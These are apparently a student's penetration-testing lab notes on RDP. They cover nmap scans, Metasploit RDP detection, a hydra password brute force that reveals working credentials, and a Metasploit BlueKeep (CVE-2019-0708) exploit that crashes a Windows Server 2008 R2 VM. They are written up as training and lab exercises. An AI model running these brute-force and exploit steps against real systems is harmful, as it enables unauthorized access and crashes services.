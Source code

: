 # 🔬RDP

## Lab 1

> 🔬 [Windows: Insecure RDP Service](https://attackdefense.com/challengedetails?cid=1957)
>
> * Target IP: `10.4.18.131`
> * **RDP** exploitation
> * Dictionaries to use:
>   * `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   * `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
nmap -sV 10.0.17.61
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-30 17:54 IST
Nmap scan report for 10.0.17.61
Host is up (0.0021s latency).
Not shown: 992 closed ports
PORT      STATE SERVICE        VERSION
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3333/tcp  open  ssl/dec-notes?
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.33 seconds
```

{% hint style="info" %}
RDP can be configured to run on another port instead of the default port
{% endhint %}

> Port 3333 instead of port 3339 is open but no service due to port is not assigned to any services.

* Use Metasploit [rdp\_scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/rdp/rdp\_scanner/) module to check if port `3333` is running RDP.
* Useful when performing black-box penetration test

```bash
msf5 > search rdp_scanner

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/rdp_scanner                   normal  No     Identify endpoints speaking the Remote Desktop Protocol (RDP)
```

<pre class="language-bash"><code class="lang-bash">msf5 > use auxiliary/scanner/rdp/rdp_scanner
msf5 auxiliary(scanner/rdp/rdp_scanner) > set RHOSTS 10.0.17.61
<strong>msf5 auxiliary(scanner/rdp/rdp_scanner) > set RPORT 3333 # default port 3389
</strong>msf5 auxiliary(scanner/rdp/rdp_scanner) > run
</code></pre>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>RDP Detected</p></figcaption></figure>

> The RDP is running on target port `3333`

### RDP Brute Force

* Use hydra to find the valid `username` and `password` by using the dictionary wordlists

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt
```

{% hint style="warning" %}
Make sure to adjust the speed when performing the real world penetration test using `-t <default 16>` to prevent Denial of Services (DOS) or crashing the `Windows` system.
{% endhint %}

```bash
sts/unix_passwords.txt rdp://10.0.17.61 -s 3333
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-30 18:12:55
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 7063 login tries (l:7/p:1009), ~1766 tries per task
[DATA] attacking rdp://10.0.17.61:3333/
[3333][rdp] host: 10.0.17.61   login: sysadmin   password: samantha
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: demo   password: victoria
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: auditor   password: elizabeth
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: administrator   password: qwertyuiop
[ERROR] freerdp: The connection failed to establish.
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-30 18:13:35
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* In this case, `freerdp` cannot be used in this lab, the only RDP client that can be used is `xfreerdp`.

```bash
xfreerdp  /u:Administrator /p:qwertyuiop /v:10.0.17.61:3333
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `port-number-3333`
{% endhint %}

***

## Lab 2 - Blue Keep

> 🔬 **Extra Lab**
>
> Setup a vulnerable _Windows 2008 R2 Virtual Machine_ and connected it to the same network of the Kali virtual machine.
>
> * Host system: `Kali Linux`
> * Target system: `Windows Server 2008 R2`&#x20;
> * Target IP: `192.168.42.139`&#x20;
> * Local IP: `192.168.42.132`
> * Exploitation tool:
> * Vulnerability: [CVE-2019-0708 - BlueKeep](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)

{% hint style="danger" %}
Targeting Kernel space memory and apps can cause system crashes.
{% endhint %}

### Enumeration

```bash
nmap -sV -sC 192.168.42.139 -Pn   
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 22:36 +08
Nmap scan report for 192.168.42.139
Host is up (0.0029s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
445/tcp   open  microsoft-ds       Windows Server 2008 R2 Standard 7600 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: WIN-8M9K4MEH6MB
|   NetBIOS_Domain_Name: WIN-8M9K4MEH6MB
|   NetBIOS_Computer_Name: WIN-8M9K4MEH6MB
|   DNS_Domain_Name: WIN-8M9K4MEH6MB
|   DNS_Computer_Name: WIN-8M9K4MEH6MB
|   Product_Version: 6.1.7600
|_  System_Time: 2024-07-04T14:37:17+00:00
| ssl-cert: Subject: commonName=WIN-8M9K4MEH6MB
| Not valid before: 2024-07-03T14:36:09
|_Not valid after:  2025-01-02T14:36:09
|_ssl-date: 2024-07-04T14:37:57+00:00; 0s from scanner time.
49154/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

<figure><img src="../../../../../.gitbook/assets/image (23) (1) (1).png" alt=""><figcaption></figcaption></figure>

> RDP port 3389 is opened.

* Run `metasploit` auxiliary module to check the target expose to the BlueKeep vulnerability or not.

```bash
msfconsole
msf6 > search bluekeep
msf6 > use 0
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set RHOSTS 192.168.42.139
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> The target is vulnerable

### Exploitation

```bash
msf6 > use 3
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 5
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RHOSTS 192.168.42.139
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> And boom it crashed&#x20;








